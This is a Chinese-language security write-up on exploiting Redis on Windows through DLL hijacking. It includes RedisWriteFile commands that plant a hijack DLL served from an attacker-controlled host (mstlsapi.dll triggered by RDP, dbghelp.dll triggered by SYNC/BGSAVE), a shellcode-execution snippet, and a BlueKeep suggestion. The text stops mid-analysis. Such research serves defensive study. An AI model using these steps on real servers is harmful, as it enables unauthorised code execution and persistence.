# Redis on Windows 出网利用探索

> Exploiting Redis on Windows with Outbound Internet Access

## 前言

DLL劫持相关技术已经存在很久了，现在依然可以运用到权限维持和一些木马、外挂、钓鱼上。关于本文叙述的也是基于DLL劫持的方法，关于这个姿势，相信有不少师傅肯定都知道，只是出于某种原因还未公布而已，或者我没有搜索到。

本文主要讲 Redis on Windows 本身的DLL劫持利用。

前段时间因为上碰到 Redis on windows 的情况，所以就查了查资料看看最近网上有没有公布新的方法。  
关于 `Hunter`师傅在XZ总结的 [踩坑记录-Redis(Windows)的getshell](https://xz.aliyun.com/t/7940) 文章中。

可以看出来大概的方法有：

-   写 Webshell
-   Startup
-   篡改&劫持
-   mof
-   等

关于文中所说的DLL劫持被动等待上线这个问题，应该可以在这篇文章中解决。

有师傅可能会想，不是有主从复制RCE的姿势嘛？需要这么麻烦吗？  
是因为主从复制后的 关键功能 `MODULE LOAD` 在4.0.0 之后开始支持，而我从github上找到的Windows版本最新也仅为:  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135852-1090e120-dd2a-1.jpg)

## 过程

### 目标环境

`OS:` Windows Server 2012  
`Redis:` 3.2.100  
`Role:` Administrator  
`Port:` 80,3389,6379

接下去我会讲讲整个发现过程。

### 常规套路

首先我看到了`80`端口,这应该是个好信号，因为说不定就可以直接写Webshell，并且还是IIS。那么根据IIS默认安装，发布目录应该是在`C:\inetpub\wwwroot`下。

通过常规操作，dbfilename 写文件，的确可以正常将asp写进去，但是因为 Windows Server 2012 安装IIS的时候，并不会主动帮助你勾选 ASP / ASP.NET 运行环境，所以即使能写ASP马，也不能解析。

[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135853-11013290-dd2a-1.jpg)

### 3389 旁路攻击

`RDP` 看起来似乎除了暴破，没什么更好的方法。

如果存在 `CVE-2019-0708`,你也可以选择使用 `0708 Bluekeep` 把主机打重启使之运行启动项中的恶意文件（这是非常不好的做法）。

那么之前的文献中也提到过DLL劫持的方法，所以看看RDP在连接过程中会不会存在DLL劫持了？

本着试试的心态，我搭建了相同的环境,使用`Procmon`进行分析。

> 多说一句，如果遇到以下错误，可以下载 [KB3033929](https://www.microsoft.com/en-us/download/confirmation.aspx?id=46148)进行安装。  
> [](https://xzfile.aliyuncs.com/media/upload/picture/20200813135853-114b14be-dd2a-1.jpg)

为了保险起见，我们设置比较宽松的 Filter,只显示 Path end with为 dll的结果。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135854-1189a896-dd2a-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135854-11f13b28-dd2a-1.jpg)

在发起RDP连接的过程中，我的确发现了 在 `Windows Server 2012` 中存在 mstlsapi DLL NAME NOT FOUND 的结果。

为什么说是 2012？因为后来我测试了 Windows Server 2008 / Windows 7 / Windows Server 2003 都没有出现这样结果，但不管怎么样，对于当前环境的确可以试试。

关于 mstlsapi.dll 的详细描述，我并没有找到多少，在之前文献中

[↓↓↓](https://isc.sans.edu/forums/diary/Cyber+Security+Awareness+Month+Day+9+Port+3389tcp+RDP/7303/)  
  
  
Cyber Security Awareness Month - Day 9 - Port 3389/tcp (RDP)  
  
[↑↑↑](https://isc.sans.edu/forums/diary/Cyber+Security+Awareness+Month+Day+9+Port+3389tcp+RDP/7303/)

有提到：

> by default the certificate used for encryption is signed by an RSA private key, which is then stored statically in the file mstlsapi.dll

另外在之前漏洞记录中也存在过一些关于 `MITM-attacks`的漏洞，根据一些描述猜测应该是许可授权相关的dll。

其实对于劫持利用来说，我们这里也不必一定要了解这个dll的来龙去脉。因为关于DLL 劫持的相关利用，网上已经有很多成熟利用的文章了。

### 劫持利用

劫持的方式也有很多，之前试过BDF DLL注入，考虑到x64 dll还存在较多问题，所以为了快速达到效果，这里我们使用 kiwings师傅所改的 [DLLHijacker](https://github.com/kiwings/DLLHijacker) 帮助我们生成劫持DLL后的工程项目，以便我们可以自由的修改`Shellcode`劫持该DLL,此方法利用函数转发完成，不会破坏原有功能（在测试中发现如果转发失败会直接导致无法关机等各种情况），缺点就是他需要原DLL也同时存在操作系统上。

> 图来自 [https://kiwings.github.io/2019/04/04/th-DLL%E5%8A%AB%E6%8C%81/](https://kiwings.github.io/2019/04/04/th-DLL%E5%8A%AB%E6%8C%81/)  
> [](https://xzfile.aliyuncs.com/media/upload/picture/20200813135855-123664a0-dd2a-1.jpg)

在使用过程中，原本脚本生成后VS中有乱码问题，所以改一下，我们最好将文件以 `wb` 模式存储。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135855-1269c20a-dd2a-1.jpg)

至于原DLL文件,操作系统上并没有，但可以在网上很多地方下载或者在存在此dll文件的操作系统上 COPY 过来，建议选择可信来源。

```plain
> python3 DLLHijacker.py mstlsapi.dll
[!]Find export function :[106]

78 EnumerateAllLicenseServers
 5 EnumerateTlsServer
27 FindEnterpriseServer
28 GetAllEnterpriseServers
49 GetLicenseServersFromReg
.....
41 TLSUpgradeLicenseEx

[+] Generating VS2019 Project for DLLHijacker in folder: C:\Users\g\Desktop\xzdemo\mstlsapi
successfully generated a DLLHijack Project of mstlsapi
```

脚本会帮助我们转发所有的导出函数，你可以使用 `CFF Explorer` 进一步确认.  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135856-12cebfa2-dd2a-1.jpg)

打开项目基本不需要做什么改动，做实验可以使用默认的 `Calc shellcode`即可。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135856-133f1b9e-dd2a-1.jpg)

唯一需要做的就是指定一下原dll的绝对路径，这个路径将是我们等会利用主从复制写文件原始DLL存放路径。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135857-13850e56-dd2a-1.jpg)

接下去利用 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile) 写文件即可，先将`mstlsapi.dll` 放入指定路径。

```plain
python3 RedisWriteFile.py --rhost=192.168.56.140 --rport=6379 --lhost=192.168.56.1 --rpath="C:\Users\Public\Downloads" --rfile="mstlsapi.dll" --lfile="/tmp/mstlsapi.dll"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135857-13bb1096-dd2a-1.jpg)

确保文件无损写入。

```plain
❯ md5 /tmp/mstlsapi.dll
MD5 (/tmp/mstlsapi.dll) = 99cbcb346f7d2473bde579fbbe979981
```

```plain
PS C:\Users\Public\Downloads> Get-FileHash .\mstlsapi.dll -Algorithm MD5

Algorithm       Hash
---------       ----
MD5             99CBCB346F7D2473BDE579FBBE979981
```

因为 redis 是 `Administrator` 启动的，所以我们可以写入劫持文件到 `C:\Windows`

```plain
python3 RedisWriteFile.py --rhost=192.168.56.140 --rport=6379 --lhost=192.168.56.1 --rpath="C:\Windows" --rfile="mstlsapi.dll" --lfile="/tmp/mstlsapiJ.dll"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135858-13f71190-dd2a-1.jpg)

这里需要注意，因为连接是调用是 `NETWORK SERVICE` 权限的svchost 所以 `calc` 并不会在当前用户桌面弹出。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135858-1451b654-dd2a-1.jpg)

接下去连接，发现的确触发了计算器的调用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135859-14df1e86-dd2a-1.jpg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135900-152c2dca-dd2a-1.jpg)

从调用情况，可以看出 `C:\Windows\mstlsapi.dll` 是加载成功了。

> 这里需要注意，在这个场景中当`LoadLibrary`完正常dll后，需要在Hijack函数后做一次`FreeLibrary`的操作，不然就会出现只能利用一次的情况，因为我们这里是通过DLLMain函数进入然后再最后转发完所有函数进行劫持，  
> 而当前DLL 一旦被宿主进程加载之后，就会保持在内存中，将DLL引入进程空间，随后的重复调用不会再次进入DLLMain，而只是增加`引用计数`,这样就导致不会触发到我们的Hijack函数，有些情况原函数内部会帮助我们Free。

工程中的 Shellcode 加载方式是创建新的进程然后加载，可能并不会有好的免杀效果，这是只是想提，作者之所以选择创建新的进程是因为这里不能让原本转发阻塞，否则整个DLL加载将会失败。自己在测试的时候不建议直接使用单纯的shellcode加载,比如常见的:

```plain
memcpy(p, shellcode, sizeof(shellcode));
CODE code = (CODE)p;
code();
```

也需要使用类似创建进程或者注入进程的方式来操作，不要让DLL加载卡住。

### 低权限 场景直接触发

借助其他服务来进行利用，相对来说还是比较被动，所以后续我主要去关注了redis本身，会不会在某些情况存在Dll劫持的问题。还有一点，高权限启动redis的情况有，但是最好还是能在低权限下能做一些事情。

所以我将环境默认安装，`Redis Service`会开机自启，权限为`Network Service`。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135900-159b9afc-dd2a-1.jpg)

那么单纯的 Redis shell 能做的并不多，我们可以尝试使用一些命令来观察执行过程。

命令比较多，所以我们主要关注 Server端的指令。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135901-15ec811a-dd2a-1.jpg)

在测试的过程中，我发现在使用 SYNC 命令时，发生了DLL 劫持的特征。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135901-16152444-dd2a-1.jpg)

可以发现，不止出现了一个DLL 未找到。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135902-1649f76e-dd2a-1.jpg)

放宽限制我们来细看一下。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135902-1686d67a-dd2a-1.jpg)  
这里可以发现系统其实还去查询了 SafeDllSearchMode key值，但是因为从 Windows 7之后就采用KnownDLLs机制所以提示这个键值也是找不到的，但是并不影响DLL查找顺序。

1.  进程对应的应用程序所在目录（可理解为程序安装目录比如`C:\ProgramFile\xxx`）；
2.  系统目录（即`%windir%system32`）；
3.  16位系统目录（即`%windir%system`）；
4.  Windows目录（即`%windir%`）；
5.  当前目录（运行的某个文件所在目录，比如`C:\Documents and Settings\Administrator\Desktop\xxx`)
6.  PATH环境变量中的各个目录；

所以根据规则，`dbghelp.dll` 不在 `KnownDLLs List` 中，会先从安装目录下搜索，即使System32下已经存在了`dbghelp.dll`。

另外一个很幸运的事情是，默认的安装目录， `Network Service` 用户是拥有完全控制权限的。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135903-16dc0b40-dd2a-1.jpg)

在利用的时候安装目录如何得知了？其实通过 info 就可以看到。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135903-1725b844-dd2a-1.jpg)

因为权限问题，这里我们就不考虑 `symsrv.dll` ,因为他是需要在 System32 目录下进行劫持，接下去我们来看看 SYNC 命令。

[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135903-17545622-dd2a-1.jpg)

熟悉主从复制的同学对 SYNC 命令并不会陌生，它主要是让从服务器同步 Master的数据，在2.8版本之后加入PSYNC 为了代替SYNC，场景是为了解决断线重连之后的全量复制低效的缺陷，同样PYSNC也是会产生`NAME NOT FOUNT`。

> 图来自 [https://juejin.im/post/6844903943764443149#heading-1](https://juejin.im/post/6844903943764443149#heading-1)  
> [](https://xzfile.aliyuncs.com/media/upload/picture/20200813135904-17824fdc-dd2a-1.jpg)

从同步流程图可以看出来，slaveof host port 命令之后，其实就会去直接执行 sync的操作，并且SYNC之后还会开始执行BGSAVE的指令，并会fork一个子进程，然后创建RDB文件（一个压缩过的二进制文件，可以通过该文件还原快照时的数据库状态）进行持久化。

于是我尝试直接执行 `BGSAVE` 命令，发现也是直接触发了`NAME NOT FOUNT`。

